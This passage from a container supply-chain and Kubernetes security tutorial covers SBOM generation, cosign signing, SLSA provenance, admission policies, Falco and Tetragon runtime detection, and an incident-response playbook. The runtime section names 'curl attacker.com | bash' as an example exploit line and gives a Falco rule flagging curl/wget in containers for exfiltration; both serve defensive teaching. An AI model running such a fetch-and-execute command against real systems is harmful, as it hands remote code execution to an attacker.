**Why this exists.** The SolarWinds and log4shell attacks demonstrated that organisations had no answer to the question "are we running that library?". A Software Bill of Materials (SBOM) is a machine-readable inventory of every component inside your image — every OS package, every language library, every version. The US Executive Order 14028 (2021) mandated SBOMs for software sold to federal agencies. Even without regulatory pressure, an SBOM is what transforms "are we affected?" from a 3-day forensic exercise into a 30-second query.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** Syft generates an SBOM from an image layer-by-layer. The SBOM is then attested (signed and stored alongside the image in the registry) so downstream consumers can verify its provenance.



- **SPDX** (Linux Foundation / ISO 5962:2021): verbose, strongly typed, excellent tool support.
- **CycloneDX** (OWASP): compact JSON, first-class VEX (Vulnerability Exploitability eXchange) support.
- **Attestation storage**: `cosign attest` stores the SBOM as an OCI artifact in the same registry as the image, namespaced by predicate type (`https://spdx.dev/Document`).
- At admission time, a Kyverno or OPA policy can verify that an attestation exists before allowing a pod to schedule.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Install Syft
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | sh -s -- -b /usr/local/bin

# Generate SBOM in SPDX JSON format
syft nginx:1.25 -o spdx-json=sbom.spdx.json

# Generate SBOM in CycloneDX format
syft nginx:1.25 -o cyclonedx-json=sbom.cdx.json

# Query the SBOM — find a specific library
cat sbom.spdx.json | jq '.packages[] | select(.name == "openssl") | {name, versionInfo}'

# Attest the SBOM to the registry (keyless, using Sigstore OIDC)
cosign attest \
  --predicate sbom.spdx.json \
  --type spdx \
  ghcr.io/myorg/myapp:v1.2.3

# Verify the attestation exists
cosign verify-attestation \
  --type spdx \
  --certificate-identity-regexp "https://github.com/myorg/myapp" \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  ghcr.io/myorg/myapp:v1.2.3
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> syft nginx:1.25 -o spdx-json=sbom.spdx.json
<span class="comment"># ✔ Loaded image            nginx:1.25</span>
<span class="comment"># ✔ Parsed image            sha256:a7be6198544f09a75b26e6376b...</span>
<span class="comment"># ✔ Cataloged packages      [146 packages]</span>

<span class="prompt">$</span> cat sbom.spdx.json | jq '.packages | length'
<span class="comment"># 146</span>

<span class="prompt">$</span> cat sbom.spdx.json | jq '.packages[] | select(.name == "openssl") | {name,versionInfo}'
<span class="comment"># { "name": "openssl", "versionInfo": "3.0.11-1~deb12u2" }</span>

<span class="prompt">$</span> cosign verify-attestation --type spdx ... ghcr.io/myorg/myapp:v1.2.3
<span class="comment"># Verification for ghcr.io/myorg/myapp:v1.2.3 --</span>
<span class="comment"># The following checks were performed on each of these signatures:</span>
<span class="comment">#   - The cosign claims were validated</span>
<span class="comment">#   - Existence of the claims in the transparency log was verified</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">no component inventory</span>
"are we affected?" = days of work
compliance gap: EO 14028
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">Syft generating SBOMs in CI</span>
attestations stored in registry
Grype querying SBOM for CVEs
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">30-second blast-radius query</span>
compliance evidence automated
VEX statements for accepted risks
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Chainguard**, every image in their hardened image catalogue ships with a co-signed SPDX SBOM attestation in the registry. When log4shell was disclosed, Chainguard customers identified affected images and verified patched versions in under 60 seconds by querying SBOM attestations — compared to the industry-average 3.8 days for organisations without SBOMs (CISA 2022 report).
</div>

</div>

---

## 8. Image Signing

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** An attacker with write access to your container registry can replace `myapp:v1.2.3` with a backdoored image — the tag is mutable. Without signature verification, your cluster deploys whatever the registry serves. Cosign keyless signing uses Sigstore's OIDC-based ephemeral key infrastructure: the GitHub Actions OIDC token proves _who_ signed, the transparency log (Rekor) makes it auditable. Chainguard built their entire business model on this: every image they publish is signed and verifiable without managing a single private key.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** Keyless signing replaces "manage a private key forever" with "prove your identity at signing time via OIDC, record in a public transparency log".



- The certificate embeds the GitHub workflow URL and repository — verification requires matching this identity.
- Rekor entries are immutable and publicly auditable. You can prove retroactively when and by whom an image was signed.
- Admission enforcement: Kyverno `verifyImages` or Sigstore `policy-controller` reject pods whose images have no valid signature.
- For air-gapped environments, run a self-hosted Fulcio + Rekor instance (Sigstore's `sigstore-helm-charts`).

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Install cosign
brew install cosign  # macOS
# or: curl -sL https://github.com/sigstore/cosign/releases/latest/download/cosign-linux-amd64 -o cosign

# Sign an image keylessly (requires OIDC context — works natively in GitHub Actions)
cosign sign ghcr.io/myorg/myapp:v1.2.3

# Verify the signature
cosign verify \
  --certificate-identity-regexp "https://github.com/myorg/myapp/.github/workflows/release.yml" \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  ghcr.io/myorg/myapp:v1.2.3

# GitHub Actions workflow snippet for keyless signing
cat <<'EOF'
- name: Sign image
  uses: sigstore/cosign-installer@v3
- run: |
    cosign sign \
      --yes \
      ghcr.io/${{ github.repository }}:${{ github.sha }}
  env:
    COSIGN_EXPERIMENTAL: "1"
EOF

# Enforce signature verification via Kyverno policy
kubectl apply -f - <<'EOF'
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-image-signature
spec:
  validationFailureAction: Enforce
  rules:
  - name: verify-signature
    match:
      resources:
        kinds: [Pod]
    verifyImages:
    - imageReferences: ["ghcr.io/myorg/*"]
      attestors:
      - entries:
        - keyless:
            subject: "https://github.com/myorg/*"
            issuer: "https://token.actions.githubusercontent.com"
EOF
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> cosign verify --certificate-identity-regexp ... ghcr.io/myorg/myapp:v1.2.3
<span class="comment"># Verification for ghcr.io/myorg/myapp:v1.2.3 --</span>
<span class="comment"># The following checks were performed on each of these signatures:</span>
<span class="comment">#   - The cosign claims were validated</span>
<span class="comment">#   - Existence of the claims in the transparency log was verified online</span>
<span class="comment">#   - The code-signing certificate claims were validated</span>
<span class="comment">#</span>
<span class="comment"># [{"critical":{"identity":{"docker-reference":"ghcr.io/myorg/myapp"},</span>
<span class="comment">#    "image":{"docker-manifest-digest":"sha256:a7be6198..."},</span>
<span class="comment">#    "type":"cosign container image signature"},</span>
<span class="comment">#    "optional":{"Bundle":{"SignedEntryTimestamp":"..."}}}]</span>

<span class="prompt">$</span> kubectl apply -f unsigned-pod.yaml
<span class="comment"># Error from server: admission webhook "mutate.kyverno.svc" denied the request:</span>
<span class="comment">#   image ghcr.io/attacker/malware:latest failed signature verification</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">mutable tags, no verification</span>
registry compromise = cluster compromise
no audit trail for who built what
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">cosign signing in CI</span>
signatures in registry OCI artifacts
Kyverno policy in warn mode
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">unsigned images rejected at admission</span>
Rekor provides tamper-evident audit log
supply chain integrity verified end-to-end
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**Chainguard** built their entire hardened image distribution on Sigstore keyless signing. Every image digest in their catalogue is signed using GitHub Actions OIDC, with a Rekor transparency log entry. Enterprise customers enforce `cosign verify` in admission via Sigstore's `policy-controller` — if Chainguard's CI pipeline was ever compromised and produced a backdoored image, the altered digest would fail verification and never schedule on any enforcing cluster.
</div>

</div>

---

## 9. SLSA Supply-Chain Levels

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** The SolarWinds attack was a build-system compromise: the attacker injected malicious code into the build pipeline itself, not the source code. No code review would have caught it. SLSA (Supply-chain Levels for Software Artifacts) is a Google-originated framework defining four levels of build-system integrity. At SLSA L3+, a tamper-evident provenance attestation cryptographically proves which source commit produced which binary — defeating SolarWinds-class attacks.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** SLSA levels progressively close supply-chain attack vectors from "nothing guaranteed" (L0) to "hermetic, reproducible, verified" (L4).



- **L1**: automated build, provenance document generated (even unsigned). Stops accidental tampering.
- **L2**: hosted build service (GitHub Actions, Cloud Build); provenance is signed by the service. Stops malicious local builds.
- **L3**: build runs in an isolated ephemeral environment; workers have no persistent state; provenance is non-forgeable. Stops most build-system attacks.
- **L4**: two-person review on all changes; hermetic builds (all inputs declared and pinned); reproducible (same inputs = same output bit-for-bit). Stops SolarWinds-class attacks.
- The `slsa-github-generator` (Google) generates L2/L3 provenance attestations from GitHub Actions — no custom tooling required.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Add the SLSA GitHub Actions generator to your workflow
cat <<'EOF'
# .github/workflows/release.yml
jobs:
  build:
    outputs:
      digest: ${{ steps.build.outputs.digest }}
    steps:
    - name: Build image
      id: build
      run: |
        docker build -t ghcr.io/myorg/myapp:${{ github.sha }} .
        DIGEST=$(docker inspect --format='{{index .RepoDigests 0}}' ghcr.io/myorg/myapp:${{ github.sha }} | cut -d@ -f2)
        echo "digest=$DIGEST" >> $GITHUB_OUTPUT
        docker push ghcr.io/myorg/myapp:${{ github.sha }}

  provenance:
    needs: [build]
    permissions:
      id-token: write
      contents: read
      actions: read
    uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.9.0
    with:
      image: ghcr.io/myorg/myapp
      digest: ${{ needs.build.outputs.digest }}
EOF

# Verify SLSA provenance with slsa-verifier
slsa-verifier verify-image \
  ghcr.io/myorg/myapp@sha256:abc123 \
  --source-uri github.com/myorg/myapp \
  --source-tag v1.2.3

# Inspect the provenance attestation
cosign download attestation ghcr.io/myorg/myapp:v1.2.3 \
  | jq -r '.payload' | base64 -d | jq '.predicate'
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> slsa-verifier verify-image ghcr.io/myorg/myapp@sha256:abc123 \
    --source-uri github.com/myorg/myapp --source-tag v1.2.3
<span class="comment"># Verified signature against tlog entry index 12345678 at URL:</span>
<span class="comment"># https://rekor.sigstore.dev/api/v1/log/entries/12345678</span>
<span class="comment">#</span>
<span class="comment"># PASSED: SLSA verification passed</span>

<span class="prompt">$</span> cosign download attestation ghcr.io/myorg/myapp:v1.2.3 | jq -r '.payload' | base64 -d | jq '.predicate.buildType'
<span class="comment"># "https://slsa.dev/provenance/v0.2"</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">no provenance</span>
build-system compromise = undetectable
SolarWinds-class attack possible
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">SLSA L3 provenance generated</span>
signed by GitHub OIDC
stored as OCI attestation
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">slsa-verifier validates at deploy</span>
tampered builds fail verification
compliance: NIST SSDF, EO 14028
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Google**, the SLSA framework originated from their internal Binary Authorization system used across all production deployments. After publishing SLSA as an open standard, Google Cloud Build natively generates SLSA L3 provenance for every Cloud Build job. Their public transparency report shows that 100% of Google infrastructure images reach at least SLSA L2, with critical services at L3 — the framework that would have cryptographically detected the SolarWinds build-time injection.
</div>

</div>

---

## 10. OPA / Gatekeeper / Kyverno Policy-as-Code

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** Every security requirement that lives in a wiki page is a security requirement that will be violated. Policy-as-code enforces rules at admission time — before a misconfigured resource ever lands in etcd. Gatekeeper (OPA) and Kyverno are the two dominant Kubernetes policy engines. Both catch "no resource limits", "latest image tag", "missing required labels", and "privileged containers" at `kubectl apply` time, not at 03:00 during a post-incident review.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** Both engines plug into the Kubernetes admission webhook chain. The difference is in the policy language: Gatekeeper uses Rego (a logic language); Kyverno uses native YAML-based rules.



- **Gatekeeper audit mode**: scans existing resources and writes violations to `ConstraintStatus`. Useful for brownfield clusters — see what's wrong without breaking anything.
- **Kyverno generate**: automatically creates companion resources (e.g., a `NetworkPolicy` for every new namespace).
- **Kyverno mutate**: injects defaults (e.g., `securityContext.runAsNonRoot: true`) when pods are created — reduces friction by fixing rather than rejecting.
- Both integrate with `PolicyReport` CRDs for standardised reporting.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# --- Gatekeeper: block containers without resource limits ---
kubectl apply -f - <<'EOF'
apiVersion: templates.gatekeeper.sh/v1
kind: ConstraintTemplate
metadata:
  name: requireresourcelimits
spec:
  crd:
    spec:
      names:
        kind: RequireResourceLimits
  targets:
  - target: admission.k8s.gatekeeper.sh
    rego: |
      package requireresourcelimits
      violation[{"msg": msg}] {
        container := input.review.object.spec.containers[_]
        not container.resources.limits.cpu
        msg := sprintf("Container %v is missing CPU limits", [container.name])
      }
EOF

kubectl apply -f - <<'EOF'
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: RequireResourceLimits
metadata:
  name: require-cpu-limits
spec:
  enforcementAction: deny
  match:
    kinds:
    - apiGroups: [""]
      kinds: ["Pod"]
EOF

# --- Kyverno: disallow latest tag and require labels ---
kubectl apply -f - <<'EOF'
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-latest-tag
spec:
  validationFailureAction: Enforce
  rules:
  - name: require-image-tag
    match:
      resources:
        kinds: [Pod]
    validate:
      message: "Image tag ':latest' is not allowed. Pin to a digest or specific version."
      pattern:
        spec:
          containers:
          - image: "!*:latest"
EOF

# Audit existing violations without enforcing
kubectl get constraints -A
kubectl describe requireresourcelimits require-cpu-limits | grep -A20 violations
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl run nolimits --image=nginx:latest -n default
<span class="comment"># Error from server (Forbidden): admission webhook "validate.kyverno.svc-fail" denied the request:</span>
<span class="comment">#   policy Pod/default/nolimits for resource violation:</span>
<span class="comment">#   disallow-latest-tag/require-image-tag: Image tag ':latest' is not allowed.</span>

<span class="prompt">$</span> kubectl describe requireresourcelimits require-cpu-limits
<span class="comment"># Status:</span>
<span class="comment">#   Total Violations: 14</span>
<span class="comment">#   Violations:</span>
<span class="comment">#     Kind: Pod  Message: Container api is missing CPU limits  Name: api-7f9b8c-zrtpq  Namespace: payments</span>
<span class="comment">#     Kind: Pod  Message: Container worker is missing CPU limits  Name: worker-6d4cf-x8kt2  Namespace: jobs</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">policies only in wiki</span>
14 pods without resource limits
latest tags in production
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">audit mode shows all violations</span>
teams fixing resources.limits
Kyverno mutate patching defaults
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">enforce mode: violations rejected at apply</span>
policy-as-code in Git with PR reviews
compliance evidence from PolicyReports
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Sysdig**, their security research team found that 58% of production Kubernetes clusters had containers without resource limits — the leading cause of noisy-neighbour incidents and DoS conditions. After deploying Kyverno with a mutating policy that injects default limits and a validating policy that enforces them, their platform engineering team reduced resource-limit violations from 58% to under 2% within one sprint cycle, without requiring changes to application team workflows.
</div>

</div>

---

## 11. Runtime Security

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** Admission control stops bad configurations from entering the cluster. Runtime security detects bad behaviour after a workload is running. A container with a zero-day RCE passes every admission check — but when the exploit runs `curl attacker.com | bash`, Falco sees the `exec` syscall and fires an alert in under 100ms. Netflix's security chaos engineering team simulates exactly these runtime attacks to validate their detection coverage.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** Both Falco (eBPF/kernel module) and Tetragon (eBPF) intercept Linux syscalls in the kernel. Falco matches syscall events against rules. Tetragon enforces policies by killing processes or dropping network calls at the kernel level.



- **Falco rules**: event-driven; match on syscall type, process name, container image, file path. Built-in rules cover the most common attack patterns (shell in container, write under `/etc`, `ptrace` attach).
- **Tetragon TracingPolicy**: eBPF-native; can _enforce_ (kill/sigkill the process) rather than just alert. Used by Isovalent/Cilium clusters.
- **eBPF advantage**: runs at kernel level with minimal overhead (~1-2% CPU); no kernel module signature required on modern kernels.
- Feed Falco JSON output to a SIEM (Elasticsearch, Datadog, Splunk) for correlation across nodes.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Install Falco via Helm
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm install falco falcosecurity/falco \
  --namespace falco --create-namespace \
  --set driver.kind=ebpf \
  --set falcosidekick.enabled=true \
  --set falcosidekick.config.slack.webhookurl="https://hooks.slack.com/..."

# View Falco logs in real time
kubectl logs -n falco -l app.kubernetes.io/name=falco -f

# Trigger a built-in Falco rule — shell spawned in container
kubectl exec -it deployment/nginx -- /bin/bash
# (Falco fires: "A shell was spawned in a container" CRITICAL)

# Custom Falco rule — alert on outbound curl to internet
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-custom-rules
  namespace: falco
data:
  custom_rules.yaml: |
    - rule: Outbound curl in container
      desc: curl executed inside a running container
      condition: >
        spawned_process and container
        and proc.name in (curl, wget)
        and not proc.pname in (package_mgmt_binaries)
      output: >
        curl/wget launched in container
        (user=%user.name cmd=%proc.cmdline container=%container.name image=%container.image.repository)
      priority: WARNING
      tags: [network, exfiltration]
EOF

# Tetragon: install via Helm
helm repo add cilium https://helm.cilium.io
helm install tetragon cilium/tetragon -n kube-system

# Tetragon: observe all exec events in the payments namespace
kubectl exec -n kube-system ds/tetragon -c tetragon -- \
  tetra getevents -o compact --namespace payments
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl exec -it deployment/nginx -- /bin/bash
<span class="comment"># (in Falco logs:)</span>
<span class="comment"># 10:32:01.450 CRITICAL  A shell was spawned in a container with an attached terminal</span>
<span class="comment">#   (user=root user_loginuid=-1 k8s.ns=default k8s.pod=nginx-6d4cf56db6-x8kt2</span>
<span class="comment">#    container=nginx shell=bash parent=runc cmdline=bash)</span>

<span class="prompt">$</span> kubectl exec -n kube-system ds/tetragon -c tetragon -- tetra getevents -o compact --namespace payments
<span class="comment"># 🚀 process payments/api-7f9b8c-zrtpq /bin/sh -c "id"</span>
<span class="comment"># 💥 exit    payments/api-7f9b8c-zrtpq /bin/sh -c "id" 0</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">no runtime visibility</span>
exploit runs undetected
lateral movement silent
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">Falco detecting exec events</span>
Tetragon observing syscalls
custom rules for curl/wget
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">shell-in-container: Slack alert in 100ms</span>
Tetragon can SIGKILL on policy match
SIEM correlates across all nodes
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Netflix**, their security chaos engineering team (Security Chaos Monkey) regularly injects simulated container escapes and lateral movement attempts. Falco with custom rules for their environment is the primary detection layer. In their 2022 public talk, they reported detecting 97% of simulated runtime attacks within 500ms using a combination of Falco eBPF rules and custom anomaly detection models trained on Falco JSON output — reducing mean time to detect from hours to sub-second.
</div>

</div>

---

## 12. Incident Response Playbook

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** At 02:47 Falco fires a CRITICAL alert: "reverse shell in container, payments namespace". The next 15 minutes determine whether this is a contained pod compromise or a full cluster breach. Without a pre-defined playbook, engineers improvise under stress and make mistakes — deleting evidence, alerting the attacker, or missing lateral movement. The playbook gives a repeatable, auditable sequence: isolate → snapshot → investigate → remediate → postmortem.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** Incident response in Kubernetes has a critical forensics tension: preserving evidence vs. stopping active harm. The playbook resolves this by _isolating_ the pod (network blackhole) before terminating it, then taking a forensic snapshot.



- **Isolate first**: apply a `NetworkPolicy` that denies all ingress and egress to the compromised pod's label. Do not delete the pod yet.
- **Snapshot**: use `kubectl debug` to attach an ephemeral forensic container and run `tar` on `/proc/<pid>/fd`, copy logs, capture environment variables. If the node is compromised, cordon + snapshot the node disk.
- **Preserve audit trail**: every `kubectl` command you run during incident response is itself an audit log entry — use a dedicated incident-response kubeconfig with a named user.
- **Postmortem**: blameless, structured (timeline / impact / root cause / 5 whys / action items with owners and due dates).

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# STEP 1 — ISOLATE: network blackhole for the compromised pod
COMPROMISED_POD="api-7f9b8c-zrtpq"
NAMESPACE="payments"

# Label the pod for policy targeting
kubectl label pod $COMPROMISED_POD -n $NAMESPACE incident=isolated

# Apply deny-all policy matching that label
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: isolate-compromised-pod
  namespace: $NAMESPACE
spec:
  podSelector:
    matchLabels:
      incident: isolated
  policyTypes:
  - Ingress
  - Egress
EOF

# STEP 2 — SNAPSHOT: capture forensic evidence
# Attach ephemeral debug container
kubectl debug -it $COMPROMISED_POD -n $NAMESPACE \
  --image=ubuntu:22.04 --target=api -- bash

# Inside the debug container:
# ps aux                          # running processes
# cat /proc/1/cmdline             # entrypoint
# ls -la /proc/1/fd               # open file descriptors
# env                             # exposed environment variables (potential secrets!)
# find / -newer /proc/1 2>/dev/null  # files written since container start

# Export container filesystem
kubectl cp $NAMESPACE/$COMPROMISED_POD:/tmp /tmp/forensics/

# STEP 3 — COLLECT LOGS
kubectl logs $COMPROMISED_POD -n $NAMESPACE --since=24h > /tmp/forensics/pod.log
kubectl get events -n $NAMESPACE --sort-by='.lastTimestamp' > /tmp/forensics/events.log

# STEP 4 — AUDIT LOG: find suspicious API calls from this pod's SA
kubectl get events -n $NAMESPACE -o json \
  | jq -r '.items[] | select(.involvedObject.name == "'$COMPROMISED_POD'") | [.lastTimestamp, .reason, .message] | @tsv'

# STEP 5 — REMEDIATE: delete pod, rotate credentials, rebuild image
kubectl delete pod $COMPROMISED_POD -n $NAMESPACE
# Rotate every secret/SA token the pod had access to
kubectl delete secret db-password -n $NAMESPACE
# Re-deploy from clean image (pinned digest, newly signed)
kubectl rollout restart deployment/api -n $NAMESPACE
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl label pod api-7f9b8c-zrtpq -n payments incident=isolated
<span class="comment"># pod/api-7f9b8c-zrtpq labeled</span>
